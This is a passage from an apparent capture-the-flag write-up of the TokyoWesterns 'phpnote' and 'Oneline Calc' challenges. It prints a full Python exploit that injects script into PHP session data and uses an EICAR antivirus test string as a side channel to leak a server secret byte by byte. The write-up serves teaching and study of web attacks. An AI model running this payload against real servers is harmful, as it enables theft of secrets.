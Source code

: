 Now the ordered serialized array will be like this (the length is incorrect, anyway):

```
realname|s:10:"<body>";secret|s:6:"secret";nickname|s:179:"</body>PAYLOAD";
```

So just retrieve the secret byte by byte, Here is the payload by @sasdf:

```
#!/usr/bin/env python3
import requests
s = requests.session()

data = {
  'realname': 'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa<body>',
  'nickname': '',
}
r = s.post('http://phpnote.chal.ctf.westerns.tokyo/?action=login', data=data)

data = {
  'realname': 'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa<body>',
  'nickname': '''
</body>
<script>
// entropy QAQQAQ qceO9xEKzbOLk8IG90JtVKqA3prrbfQPqQb0wLksU+e7trdtVPUa1VbfiPnDs41bO2AEMQyySz+J
var aa;
aa=function(l) {
    eval("WDVPIVAlQEFQWzRcUFpYNTQoUF4pN0NDKTd9JEVJQ0FSLVNUQU5EQVJELUFOVElWSVJVUy1URVNULUZJTEUhJEgrSCo" + l);
}

aa(document.body.innerHTML.indexOf('secret') != -1 ?"K":"G")
</script>
''',
}
r = s.post('http://phpnote.chal.ctf.westerns.tokyo/?action=login', data=data)
print(r.text)
```

#### Failed Attempts

- outerHTML: I tried to access the outerHTML so even without closing tag `</body>` it should still work. However the JSengine does not implement this function.
- bypass hash_equals: This function is pretty rebost and it will also check the type.
- base64 truncation: Nope, not work. We cannot control raw base64.


### Oneline Calc

#### Flag 1 (read file as www-data)

After a few fuzzing we realize is C language. Fortunately the server is somehow not stable so we even got this informative message:

```
Warning:  system(): Unable to fork [touch "/var/tmp/oc/oc8h82k4.c" "/var/tmp/oc/oc8h82k4.bin"] in /srv/olc/public/calc.php on line 23

Warning:  system(): Unable to fork [chmod 0600 "/var/tmp/oc/oc8h82k4.c" "/var/tmp/oc/oc8h82k4.bin"] in /srv/olc/public/calc.php on line 24

Warning:  pcntl_fork(): Error 11 in /srv/olc/vendor/misterion/ko-process/src/Ko/ProcessManager.php on line 162

Fatal error:  Uncaught RuntimeException: Failure on pcntl_fork in /srv/olc/vendor/misterion/ko-process/src/Ko/ProcessManager.php:164
Stack trace:
```
